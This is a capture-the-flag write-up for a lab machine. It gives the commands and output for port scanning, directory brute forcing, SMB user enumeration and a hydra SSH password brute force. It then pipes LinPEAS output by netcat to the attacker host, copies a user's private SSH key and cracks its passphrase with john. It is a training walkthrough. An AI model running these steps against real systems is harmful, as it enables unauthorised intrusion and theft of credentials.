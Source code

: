 # Basic Pentesting

This is a machine that allows you to practise web app hacking and privilege escalation

---
### Active Machine Information

Title: `Web App Test`

Target IP: `10.10.0.193`

Host IP: `10.10.14.20`

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

- `22/tcp` OpenSSH
- `80/tcp` Apache
- `138/tcp` Samba
- `445/tcp` Samba
- `8009/tcp` Apache
- `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

> !-- Check our dev note section if you need to know what to work on. --

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

> /development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

> href="dev.txt"

> href="j.txt"

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

> S-1-22-1-1000 Unix User\kay (Local User)

> S-1-22-1-1001 Unix User\jan (Local User)

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

> [22][ssh] host: 10.10.0.193   login: jan   password: armando

Result: [hydra](hydra)

---

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

Using: `jan:armando`

```bash
ssh jan@10.10.0.93
```

Target:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

> ══╣ Possible private SSH keys were found!
> /home/kay/.ssh/id_rsa

Result: [linpeas](linpeas)

---

Target:

```bash
cat /home/kay/.ssh/id_rsa
```

- Copy

Host:

```bash
cat > kay_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> beeswax (kay_id_rsa)

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```
